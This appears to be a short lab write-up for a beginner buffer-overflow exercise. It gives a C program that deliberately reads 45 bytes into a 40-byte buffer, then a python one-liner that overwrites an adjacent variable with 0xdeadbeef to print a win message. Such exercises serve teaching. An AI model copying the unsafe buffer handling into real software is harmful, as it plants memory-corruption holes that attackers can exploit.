

# Bof2
### Program code:
```
#include <stdlib.h>
#include <stdio.h>

void main(int argc, char *argv[])
{
  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] 0x%x\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah! You win!\n");
   }
}
```
>Goal: print out the text "Yeah! You win!"
### Solution:
- To overflow the memory, we need to input *40 random bytes* + *4 bytes to change **check's** data*
- In order to print out the text "Yeah! You win!", we must change ***check's*** data into *0xdeadbeef*
- Type `echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.o`
  
  
  
- Goal achieved!
